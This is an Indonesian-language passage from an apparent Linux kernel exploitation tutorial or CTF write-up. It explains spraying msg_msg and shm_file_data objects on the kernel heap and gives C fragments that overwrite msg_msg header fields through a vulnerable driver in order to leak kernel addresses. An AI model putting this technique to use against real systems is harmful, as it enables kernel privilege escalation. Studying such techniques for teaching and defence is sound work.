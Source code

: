 ```m_list.next``` untuk menunjuk pesan lain dalam antrian, sementara ```msg_msg *next``` menunjukk ke segment pesan berikutnya, objek elastis ini banyak digunakan oleh pengembang kernel exploit untuk melakukan heap spray. Ukuran pesan dapat dikontrol oleh pengguna, oleh karena itu dapat dialokasikan dalam beberapa cache, mulai dari kmalloc-64 hingga kmalloc-4k.
       perror("msgget");
       close(fd);
       return EXIT_FAILURE;
    }
...
```
lalu kirim pesan:

```c
...
msg_t *msg = (msg_t*)buff;

    msg->mtype = 1;
    memset(msg->mtext,0x43,0x1010);

    if(msgsnd(msqid,msg,0x1010-0x30,0)==-1){ //dikurangi 0x30 untuk ukuran header pesan
        perror("msgsnd");
        close(fd);
        return EXIT_FAILURE;
    }
...    
```
dalam hal ini, jika hanya ada satu pesan, bidang ```m_list.next``` dan ```m_list_prev``` akan menunjuk pada dirinya sendiri. dan ```msg_msgseg *next``` akan NULL, lalu kita semprotkan banyak ```shm_file_data```. 

```c
...
    int shmid;
    for(int i=0; i < 0x100; i++){
        if((shmid = shmget(IPC_PRIVATE,100,0600))==-1){
            perror("shmget");
            close(fd);
            return EXIT_FAILURE;
        }
    

        char *shmaddr;
        shmaddr = shmat(shmid,NULL,0);
        if(shmaddr == (void *)-1){
            perror("shmat");
            close(fd);
            return EXIT_FAILURE;
        }
    }
...    
```
lalu kita kirim data dengan ukuran 0x2000 untuk menimpa bidang ```m_text``` dalam struct ```msg_msg```

```c
...
 msg_evil evil;
    int size;
    size = 0x2000;
    memset((void *)&evil,0,sizeof(msg_evil));
    evil.m_next = (void *)0x4141414141414141;
    evil.m_prev = (void *)0x4242424242424242;
    evil.size = size;
    memset(buff,0,sizeof(buff));
    memcpy(buff,(void *)&evil,0x20);
    store(0x20,buff);
    
    unsigned long kbase, init_ipc_ns;
    load(0x1400,recv);
```